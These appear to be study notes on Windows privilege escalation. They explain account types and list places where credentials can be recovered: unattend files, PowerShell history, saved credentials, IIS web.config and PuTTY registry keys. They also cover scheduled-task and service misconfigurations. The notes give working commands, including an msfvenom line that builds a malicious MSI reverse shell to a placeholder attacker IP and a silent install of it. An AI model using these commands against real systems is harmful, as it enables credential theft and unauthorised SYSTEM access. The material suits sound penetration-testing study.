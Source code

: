 Common weaknesses:
- Misconfigurations on Windows services or scheduled tasks.
- Excessive privileges assigned to out account.
- Vulnerable software.
- Missing Windows security patches.

**Windows Users**
- **Administrators**: These users have the most privileges. 
- **Standard Users**: Can perform limited tasks.
Any user with administrative privileges will be part of the **Administrators** group. Standard users are part of the **Users** group.

There are, also, special built-in accounts used by the operating system:
- **System / LocalSystem**: Used by the OS to perform internal tasks. It has access to all files and resources available on the host with even higher privileges than administrators.
- **Local Service**: Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.
- **Network Service**: Used to run services with "minimum" privileges. It will use the computer credentials to authenticate through the network.


# Unattended Windows Installation
When installing Windows on a large number of hosts, the administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These installations are called Unattended Installations. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations: 
- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml
# Powershell History

If a user runs a command that includes a password directly as part of the Powershell command line, it can be retrieved by using the following command from a cmd.exe prompt:
``type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt``

**Note:** The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`.

# Saved Windows Credentials 

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system.
```shell-session
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.

```shell-session
runas /savecred /user:admin cmd.exe
```

# IIS Configuration

internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. We can find `web.config` in one of the following locations:

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
# Retrieve Credentials from Software


**PuTTY**

To retrieve the stored proxy credentials, tou can search under the following registry key for ProxyPassword with the following command:

```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

**Note:** Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

# Scheduled Tasks

Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```shell-session
schtasks /query /tn vulntask /fo list /v
```

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`.

## AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

We can use `msfvenom` to generate a malicious.msi file:
```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

```shell-session
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

# Windows Services
Windows services are managed by the **Service Control Manager** (SCM).
Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.
We can query services using the command `sc qc <service_name>`.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from Process Hacker.
All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`

### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

### Unquoted Service Paths
When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.
This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be to execute `C:\\MyPrograms\\Disk.exe` and take the rest as arguments.

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:

1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.
From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

### Insecure Service Permissions

Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite.